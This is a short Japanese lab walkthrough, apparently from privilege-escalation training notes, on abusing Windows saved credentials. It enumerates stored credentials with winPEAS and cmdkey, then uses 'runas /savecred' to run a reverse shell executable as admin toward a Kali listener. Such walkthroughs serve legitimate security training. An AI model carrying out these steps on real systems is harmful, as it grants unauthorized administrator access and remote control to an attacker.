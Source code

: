 保存された認証情報    
Windowsには、他のユーザーの権限でコマンドを実行できるrunasコマンドがあります。    
通常は、他のユーザーのパスワードを知る必要があります。   
しかし、Windowsでは、ユーザーがシステムに認証情報を保存することができ、保存された認証情報はこの要件を回避するために使用することができます。
# Privilege Escalation
1. winPEASを使用して保存された資格情報を確認します。
```
> .\winPEASany.exe quiet cmd windowscreds
```
2. admin ユーザーの保存された認証情報が存在するようです。.
3. 以下のコマンドを使用して手動で確認することができます。
```
> cmdkey /list
cmdkey /list
Currently stored credentials:
    Target: MicrosoftAccount:target=SSO_POP_Device
    Type: Generic 
    User: 02oorqttcmdhedqq
    Saved for this logon only
    
    Target: WindowsLive:target=virtualapp/didlogical
    Type: Generic 
    User: 02oorqttcmdhedqq
    Local machine persistence
    
    Target: Domain:interactive=MSEDGEWIN10\admin
    Type: Domain Password
    User: MSEDGEWIN10\admin

```
4. 保存されたクレデンシャルが存在しない場合は、以下のスクリプトを実行してクレデンシャルを更新してください。
```
> C:\PrivEsc\savecred.bat
```
5. 保存されたクレデンシャルを使用して、adminユーザーとして任意のコマンドを実行することができます。Kali上でリスナーを起動し、リバースシェル実行ファイルを実行します。
```
> runas /savecred /user:admin C:\PrivEsc\reverse.exe
```
>/savecred パスワードの入力を求められない